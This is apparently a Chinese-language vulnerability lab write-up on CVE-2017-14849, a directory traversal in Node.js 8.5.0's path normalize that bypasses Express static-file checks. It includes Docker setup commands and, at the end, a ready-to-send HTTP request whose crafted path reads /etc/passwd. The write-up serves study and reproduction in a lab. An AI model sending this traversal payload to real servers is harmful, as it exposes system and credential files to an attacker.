

# Node.js 8.5.0 目录穿越漏洞（CVE-2017-14849）

Node.js 是一个跨平台的开源 JavaScript 运行环境。Node.js 8.5.0 ~ 8.6.0 版本中，由于对“..”处理方式的更改与社区模块使用的路径名验证不兼容，远程攻击者可以访问到非预期以外的文件。

这个漏洞的原因是 Node.js 8.5.0 对目录进行 `normalize` 操作时出现了逻辑错误，导致向上层跳跃的时候（如 `../../../../../../etc/passwd`），在中间位置增加 `foo/../`（如 `../../../foo/../../../../etc/passwd`），即可使 `normalize` 返回 `/etc/passwd`，但实际上正确结果应该是 `../../../../../../etc/passwd`。

Express 这类 web 框架，通常会提供了静态文件服务器的功能，这些功能依赖于 `normalize` 函数。比如，Express 在判断 path 是否超出静态目录范围时，就用到了 `normalize` 函数，上述 BUG 导致 `normalize` 函数返回错误结果导致绕过了检查，造成任意文件读取漏洞。

当然，`normalize` 的 BUG 可以影响的绝非仅有 Express，更有待深入挖掘。不过因为这个 BUG 是 node 8.5.0 中引入的，在 8.6 中就进行了修复，所以影响范围有限。

参考文档：

 - https://nodejs.org/en/blog/vulnerability/september-2017-path-validation/
 - https://security.tencent.com/index.php/blog/msg/121

## 漏洞环境

执行如下命令编译及运行一个基于 Node.js 8.5.0 和 Express 4.15.5 的漏洞环境：

```
docker compose build
docker compose up -d
```

访问 `http://your-ip:3000/` 即可查看到一个 web 页面，其中引用到了文件 `/static/main.js`，说明其存在静态文件服务器。

## 漏洞复现

发送如下数据包，即可读取 passwd 文件：

```
GET /static/../../../a/../../../../etc/passwd HTTP/1.1
Host: your-ip:3000
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```


